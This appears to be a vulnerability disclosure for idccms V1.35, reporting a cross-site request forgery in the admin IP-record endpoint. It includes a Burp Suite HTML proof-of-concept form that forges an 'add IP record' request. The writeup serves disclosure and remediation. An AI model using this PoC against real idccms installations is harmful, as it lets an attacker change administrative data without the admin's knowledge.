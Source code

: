 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/ipRecord_deal.php?mudi=add

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/ipRecord_deal.php?mudi=add" method="POST">
      <input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2FipRecord.php%3Fmudi%3Dmanage%26dataMode%3D%26dataModeStr%3D%26dataType%3D%26dataTypeCN%3DIP%25E8%25AE%25B0%25E5%25BD%2595%26dataType2%3D%26dataID%3D0%26menuID%3D449" />
			<input type="hidden" name="dataType" value="" />
			<input type="hidden" name="dataTypeCN" value="IP%E8%AE%B0%E5%BD%95" />
			<input type="hidden" name="dataID" value="0" />
			<input type="hidden" name="webType" value="bad" />
			<input type="hidden" name="ip" value="cs" />
			<input type="hidden" name="note" value="cs" />
			<input type="hidden" name="x" value="56" />
			<input type="hidden" name="y" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

